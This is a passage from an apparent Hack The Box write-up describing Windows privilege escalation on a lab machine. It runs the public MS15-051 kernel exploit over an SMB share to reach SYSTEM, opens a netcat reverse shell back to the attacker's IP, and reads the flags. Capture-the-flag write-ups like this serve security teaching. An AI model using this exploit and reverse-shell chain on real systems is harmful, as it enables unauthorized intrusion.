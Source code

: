     Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) PRO/1000 MT Network Connection
                                     Connection Name: Local Area Connection
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.9
    

Immediately that points to a kernel exploit. I’ve done a few different ways to
enumerate for Windows kernel exploits in recent posts ([Devel without
MSF](/2019/03/05/htb-devel.html#privesc-web--system), [Devel with
MSF](/2019/03/05/htb-devel.html#privesc-alternative-with-metasploit), [Granny
with MSF](/2019/03/06/htb-granny.html#privesc-to-system)), so I won’t spend
too much time enumerating here.

I like [this](https://github.com/51x/WHP) reference for finding Windows
Exploits. MS15-051 jumps out as one I’ve used successfully before.

### MS15-051

I’ll grab it from here: https://github.com/SecWiki/windows-kernel-
exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

I’ll use `smbserver` to share the 64-bit version. Then I’ll run:

    
    
    PS C:\inetpub\drupal-7.54> \\10.10.14.14\share\ms15-051x64.exe "whoami"
    [#] ms15-051 fixed by zcgonvh
    [!] process with pid: 3012 created.
    ==============================
    nt authority\system
    

I can use it to get a shell as well:

    
    
    C:\inetpub\drupal-7.54>\\10.10.14.14\share\ms15-051x64.exe "\\10.10.14.14\share\nc64.exe -e cmd.exe 10.10.14.14 443"
    [#] ms15-051 fixed by zcgonvh
    [!] process with pid: 1612 created.
    ==============================
    
    
    
    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:50875.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\inetpub\drupal-7.54>whoami
    nt authority\system
    

Now I can get the flags:

    
    
    C:\Users>type dimitris\desktop\user.txt
    ba22fde1...
    
    C:\Users>type administrator\desktop\root.txt.txt
    4bf12b96...
    

[](/2019/03/12/htb-bastard.html)

